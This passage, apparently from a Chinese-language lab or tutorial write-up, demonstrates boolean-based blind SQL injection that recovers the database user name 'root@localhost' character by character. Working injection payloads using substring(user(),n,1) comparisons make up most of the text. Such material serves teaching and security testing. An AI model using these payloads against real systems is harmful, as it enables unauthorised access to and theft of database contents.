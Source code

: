 所以范围在小写a-z之间

`1' and substring(user(),1,1)='r'# `

![image-20220218154619173](../../images/image-20220218154619173.png)

然后就是第二个字母。
注入：`1' and substring(user(),2,1)>'a'#`
注入：`1' and substring(user(),2,1)<'z'#` 
我们继续注入：`1' and substring(user(),2,1)>'h'#` 
注入：`1' and substring(user(),2,1)='o'#` 

![image-20220218154745336](../../images/image-20220218154745336.png)

后续依此逻辑可以得到全部14位的用户名；

```sql
1' and substring(user(),3,1)='o'#
1' and substring(user(),4,1)='t'#
1' and substring(user(),5,1)='@'#
1' and substring(user(),6,1)='l'#
1' and substring(user(),7,1)='o'#
1' and substring(user(),8,1)='c'#
1' and substring(user(),9,1)='a'#
1' and substring(user(),10,1)='l'#
1' and substring(user(),11,1)='h'#
1' and substring(user(),12,1)='o'#
1' and substring(user(),13,1)='s'#
1' and substring(user(),14,1)='t'#
```
